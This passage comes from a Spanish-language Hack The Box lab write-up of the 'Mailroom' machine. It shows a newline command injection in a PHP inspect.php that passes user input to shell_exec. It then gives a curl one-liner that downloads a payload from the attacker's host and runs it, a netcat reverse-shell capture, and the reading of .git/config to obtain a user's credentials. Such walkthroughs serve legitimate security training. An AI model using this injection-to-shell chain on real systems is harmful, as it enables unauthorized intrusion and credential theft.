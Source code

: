 ![staff-read](/assets/hackthebox/img/machines/hard/mailroom/staff-read.png)

Aqui no funciona el XSS, solo funciona desde `/inquiries/da264264fd0835053a3f70b86b3b65a4.html`

![read-xss](/assets/hackthebox/img/machines/hard/mailroom/read-xss.png)

Leyendo el codigo de `inspect.php`, vemos que podemos abusar de `CLRF` y obtener RCE.

{% highlight php %}
if (isset($_POST['status_id'])) {
  $inquiryId = preg_replace('/[\$<>;|&{}\(\)\[\]\'\"]/', '', $_POST['status_id']);
  $contents = shell_exec("cat /var/www/mailroom/inquiries/$inquiryId.html");
[...cortado...]
{% endhighlight %}

Obtengo shell de esta forma.
{% highlight sh %}
λ ubuntu-pc Mailroom → curl --cookie "PHPSESSID=dfc6e94fd7a145fe31a4bf1684cc3a15" --request POST --data-raw "status_id=%0Acurl+10.10.14.189:9001+-o+/tmp/l" --silent --url http://staff-review-panel.mailroom.htb:8000/inspect.php 1>/dev/null && curl --cookie "PHPSESSID=dfc6e94fd7a145fe31a4bf1684cc3a15" --request POST --data-raw "status_id=%0Ash+/tmp/l" --url http://staff-review-panel.mailroom.htb:8000/inspect.php --silent 1>/dev/null
{% endhighlight %}

netcat
{% highlight sh %}
λ ubuntu-pc Mailroom → nc -lnvp 1337                                         
Ncat: Version 7.80 ( https://nmap.org/ncat )                                 
Ncat: Listening on :::1337                                                   
Ncat: Listening on 0.0.0.0:1337                                              
Ncat: Connection from 10.10.11.209.                                          
Ncat: Connection from 10.10.11.209:53162.                                    
bash: cannot set terminal process group (1): Inappropriate ioctl for device  
bash: no job control in this shell                                           
www-data@011649ed96da:/var/www/staffroom$                                    
{% endhighlight %}

shell
{% highlight sh %}
λ ubuntu-pc Mailroom → shell
2023/08/13 22:40:00 Nueva conexion.
{% endhighlight %}
Subimis lse.sh y nos encuentra 2 .git directorios, al hacerle cat al archivo `.git/config` encontramos credenciales del usuario matthew.
{% highlight sh %}
www-data@011649ed96da:/var/www$ cat /var/www/*/.git/config 2>&-
cat /var/www/*/.git/config 2>&-
[core]
        repositoryformatversion = 0
        filemode = true